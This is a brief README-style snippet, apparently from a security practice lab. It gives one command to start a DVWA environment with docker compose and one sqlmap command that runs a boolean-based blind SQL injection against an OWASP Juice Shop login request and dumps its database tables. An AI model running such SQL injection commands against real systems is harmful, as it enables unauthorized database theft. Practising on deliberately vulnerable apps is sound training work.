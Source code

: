 ## To initiate the environment, run the following command:
``` bash
docker compose -f dvwa_compose.yml up -d
```

## To crack the juice shop, run the following command:
``` bash
python3 sqlmap-dev/sqlmap.py -r juice_shop_login_query.txt --ignore-code=401 --level=5 --risk=3 --technique=B --dbms=sqlite --dump --tables --threads 5;
```